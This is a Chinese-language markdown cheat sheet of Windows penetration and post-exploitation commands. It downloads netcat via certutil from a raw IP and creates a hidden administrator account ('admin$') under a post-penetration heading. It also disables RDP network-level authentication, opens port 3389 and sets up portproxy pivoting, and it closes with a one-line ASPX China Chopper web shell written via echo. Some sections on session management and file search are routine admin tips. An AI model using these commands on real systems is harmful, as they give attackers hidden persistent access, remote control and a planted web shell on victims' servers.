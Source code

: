 

## 下载文件

certutil -urlcache -split -f http://11.1.63.39/nc.exe
## 渗透后置操作

```bash
net user admin$ tuser321 /add
net localgroup administrators admin$ /add
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer" /v fDenyTSConnections /t REG_DWORD /D 0 /f
echo port number is 
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

gpupdate /force
# 查看开了哪些端口
netstat -aon
```

## FAQ
###  终端服务器超过最大允许连接数
远程桌面界面，在地址栏上 1.1.58.58:65535 /admin

或cmd `mstsc /admin /v:1.1.58.58:65535` ,  此方式不能操作剪贴版
### 终端操作
```
# 查询
qwinsta 查询连接
query session
query user
# kill
log off <id>
tsdiscon rdp-tcp#946
rwinsta <id>关闭连接
```

## TODO
1.TODO: 终端服务器超过最大允许连接数 修改
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 10 /f

# https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_MAX_CON_POLICY
tsadmin 可看连接
```
## 查找文件 
win7以上
```ts
find F:\Downloads #查找目录下所有文件　
find F:\Downloads | findstr Apifox      # 过滤Apifox
```
xp/2003

dir \calendar /s
dir D:\ /s | findstr /i txt >c:\tmp.txt


## 端口转发
win7以上
```bash
netsh interface portproxy add v4tov4 listenport=4546 connectaddress=1.1.58.59 connectport=1521
netsh interface portproxy delete v4tov4 listenport=4546 listenaddress=1.1.58.58
netsh interface portproxy show all
netsh interface portproxy reset
```


## 注册表添加删除程序
x64
HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\

## echo 相关

转义用^

aspx
```
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["chopper"],"unsafe");%^>  >1
```
